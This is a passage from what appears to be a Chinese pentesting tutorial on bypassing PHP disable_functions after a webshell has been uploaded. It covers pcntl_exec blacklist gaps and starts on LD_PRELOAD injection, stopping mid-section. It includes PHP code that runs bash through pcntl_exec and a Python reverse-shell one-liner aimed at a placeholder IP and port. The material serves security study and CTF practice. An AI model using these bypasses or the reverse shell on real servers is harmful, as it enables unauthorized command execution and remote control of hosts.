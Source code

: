 

# 常见 Bypass Disable Functions 方法

# [](#%E5%B8%B8%E8%A7%81-bypass-disable-functions-%E6%96%B9%E6%B3%95%E6%80%BB%E7%BB%93)常见 Bypass Disable Functions 方法总结

## [](#1-%E8%83%8C%E6%99%AF)1 背景

`PHP.ini` 中可以设置禁用一些危险函数，例如 eval、exec、system 等，将其写在 php.ini 配置文件中，就是我们所说的 `disable_functions` 了，特别是虚拟主机运营商，为了彻底隔离同服务器的客户，以及避免出现大面积的安全问题，在 disable\_functions 的设置中也通常较为严格。

如果在渗透时，上传了 webshell 却因为 disable\_functions 禁用了函数而无法执行命令，这时候就需要想办法进行绕过，突破 disable\_functions。

## [](#2-%E9%BB%91%E5%90%8D%E5%8D%95%E7%BB%95%E8%BF%87)2 黑名单绕过

即便是通过 disable functions 限制危险函数，也可能会有限制不全的情况。可以执行命令的函数可以参考：[PHP webshell 检测](https://www.leavesongs.com/PENETRATION/dynamic-features-and-webshell-tricks-in-php.html)。还有一个比较常见的易被忽略的函数就是 `pcntl_exec`。

> pcntl 是 linux 下的一个扩展，可以支持 php 的多线程操作。很多时候会碰到禁用 exec 函数的情况，但如果运维人员安全意识不强或对 PHP 不甚了解，则很有可能忽略 pcntl 扩展的相关函数。

使用 `pcntl_exec` 的前提是开启了 `pcntl` 插件。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```php<br><?php<br>if(function_exists('pcntl_exec')) {<br>   pcntl_exec("/bin/bash", array("/tmp/test.sh"));<br>} else {<br>       echo 'pcntl extension is not support!';<br>}<br>?><br>``` |

由于 `pcntl_exec()` 执行命令是没有回显的，所以其常与 python 结合来反弹 shell：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```php<br><?php pcntl_exec("/usr/bin/python",array('-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM,socket.SOL_TCP);s.connect(("IP",port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'));<br>``` |

[蓝帽杯决赛](https://whoamianony.top/2020/12/21/CTF%e6%af%94%e8%b5%9b%e8%ae%b0%e5%bd%95/%e7%ac%ac%e5%9b%9b%e5%b1%8a%e2%80%9c%e8%93%9d%e5%b8%bd%e6%9d%af%e2%80%9d%e5%85%a8%e5%9b%bd%e5%a4%a7%e5%ad%a6%e7%94%9f%e7%bd%91%e7%bb%9c%e5%ae%89%e5%85%a8%e6%8a%80%e8%83%bd%e5%a4%a7%e8%b5%9b%e5%86%b3%e8%b5%9bWriteUp/#php)中存在相关利用方式。

## [](#3-%E5%88%A9%E7%94%A8-ld_preload-%E7%8E%AF%E5%A2%83%E5%8F%98%E9%87%8F)3 利用 LD\_PRELOAD 环境变量

### [](#31-%E5%8E%9F%E7%90%86)3.1 原理

`LD_PRELOAD` 是 Linux 系统的一个环境变量，它可以影响程序的运行时的链接（Runtime linker），它可以在用户的程序运行前优先加载该动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，可以利用此功能来使用自定义的函数，而另一方面，可以向别人的程序注入程序，从而达到特定的攻击目的。

前提：
